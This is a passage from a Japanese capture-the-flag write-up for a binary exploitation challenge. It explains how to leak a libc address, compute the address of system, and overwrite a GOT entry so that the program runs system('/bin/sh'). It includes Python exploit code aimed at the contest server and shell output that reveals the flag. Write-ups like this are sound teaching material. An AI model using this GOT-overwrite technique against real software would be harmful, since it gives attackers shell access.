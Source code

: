 ```python
time.sleep(1)
```
上記のコードを先ほどのコードに追記します．
不明な点はありますがなんとかlibcのアドレスを取得できました．次のステップでは`system`関数のアドレスを計算します．

#### ステップ3
`system`関数のアドレスを計算して求めましょう．
まずはlibcのベースアドレスを求めます．ステップ2で求めたのは`__libc_start_main+231`でした．
`__libc_start_main`のアドレスは以下のようにして見つけることができました．
```
$ objdump -S -M intel ./libc-2.27.so | grep libc_start_main
0000000000021ab0 <__libc_start_main@@GLIBC_2.2.5>:
```
従って，libcのベースアドレスは`[__libc_start_main+231の値] - 0x21ab0 - 231`となります．
次にlibcのsystem関数のアドレスを取得します．
```
$ objdump -S -M intel ./libc-2.27.so | grep libc_system
000000000004f440 <__libc_system@@GLIBC_PRIVATE>:
```
従って，system関数のアドレスは`system = libc_base + 0x4f440`で求めることができます．
ステップ4に進みましょう．

#### ステップ4
system関数のアドレスがわかったので`atol@got`を書き換えましょう．引数には`/bin/sh`を入れます．
入力バッファは現在`malloc@got`からとっています．`atol(buf)`(現在は`printf(buf)`を指している)は`atol`を`system`に書き換えると，`system(buf)`として実行されます．つまり，入力する値は`"/bin/sh\0" + systemのアドレス`とすれば`system("/bin/sh")`が呼び出されます．
以下をコードに追記してください．
```python
s.sendall(b"/bin/sh\0" + system.to_bytes(8, 'little'))

print(s.recv(2048))
print("[info] success to exploit!!!")
t = telnetlib.Telnet()
t.sock = s
```
実行するとフラグを得ることができました．
```
[info] success to exploit!!!
ls
chall
flag.txt
redir.sh
cat flag.txt
ctf4b{4bus1ng_st4ck_d03snt_n3c3ss4r1ly_m34n_0v3rwr1t1ng_r3turn_4ddr3ss}
```

#### 攻撃コード
今回作成したコードはこちら．pwntools使えるように勉強しなくては．
```python
import socket, time, telnetlib


malloc_got = 0x601038
printf_plt = 0x400590
libc_start_main_symbol = 0x21ab0
libc_system = 0x4f440

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('es.quals.beginners.seccon.jp', 9003))

print(s.recv(2048).decode())
time.sleep(1)

s.sendall(b'-2\n')
time.sleep(1)
```